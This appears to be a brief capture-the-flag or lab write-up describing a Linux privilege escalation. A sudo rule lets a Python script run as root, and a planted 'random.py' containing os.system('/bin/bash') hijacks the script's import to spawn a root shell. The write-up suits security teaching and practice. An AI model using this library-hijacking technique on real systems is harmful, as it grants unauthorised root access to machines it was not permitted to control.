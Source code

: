 1. ssh into machine
2. execute `sudo -l` to see you can execute the `/home/pupil/random_message.py` file with `/usr/bin/python3` with `root` privileges
3. note that we cannot modify the script in question
4. but we see, that it imports the `random` python package
5. in the same directory, we create a file `random.py` and fill it with:
```
import os
os.system("/bin/bash")
```
Now, the `random_message.py` will import this script (and execute while doing so) when being run. 
6. Run `random_message.py` again and gain a shell as `root`
